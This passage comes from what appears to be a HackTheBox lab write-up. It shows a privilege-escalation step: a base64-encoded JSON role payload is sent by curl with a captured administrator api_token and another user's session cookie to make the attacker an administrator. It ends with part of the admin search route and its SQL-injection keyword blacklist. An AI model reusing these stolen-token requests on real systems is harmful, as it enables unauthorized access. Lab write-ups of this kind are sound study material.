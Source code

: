 Create a structure in `json` as required to add `Administrators` role to `wither` user and then encode it into `base64` as required by the code
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ echo '{"username":"wither","email":"wither@test.com","role":"Administrators"}' | base64 -w0
eyJ1c2VybmFtZSI6IndpdGhlciIsImVtYWlsIjoid2l0aGVyQHRlc3QuY29tIiwicm9sZSI6IkFkbWluaXN0cmF0b3JzIn0K   
```

Finally, in `update_user`, a request is made using the `base64` formatted data to update the role by dragging the administrator's `api_token` and `Tyler`'s cookie.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ curl -s http://jobs.amzcorp.local/api/v4/users/edit -d '{"update_user": "eyJ1c2VybmFtZSI6IndpdGhlciIsImVtYWlsIjoid2l0aGVyQHRlc3QuY29tIiwicm9sZSI6IkFkbWluaXN0cmF0b3JzIn0K"}' -b api_token=98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a -b session=.eJw1jktOBDEMRO-SNUJJHMfxrLgAZ2g5aRtG9AelexYwmrsThFj6lV657m6yrse7u5z9pk9uus7u4rg2zMkSQAap5HMoNRj4FhUNwefBCWkWKCFCYpDIWAyT10ZGKmLCAbh4UsieKEXxiVIujKgYgkmO1XNTBBMlIZ5r5OxbRpMIbgy5Hdr_1sRxtqPbdO4fug1gFWRUYslBjI1DCPOcireWUow8pmCginV4usp1Gcr5tWh_kfW77f3zedmbLCPt-6IjfJVN3rQfg_x-3WTVf8U9fgDjdVQK.aIx95Q.n4ZlHllEGYtLa8Q0OWZuhfvyJHs -H 'Content-Type: application/json' | jq
{
  "success": "User updated successfully"
}

```

Then we can find we are administrator role here
![](images/Pasted%20image%2020250801170756.png)
Available routes are search engines with possible `sqli`
```
@blueprint.route('/admin/users/search', methods=['POST'])
@login_required
def search_user():
    if session['role'] == "Administrators":
        blacklist = ["0x", "**", "ifnull", " or ", "union"]
        username = request.form.get('username')
        if username:
            try:
                conn = connect_db()
                cur = conn.cursor()
```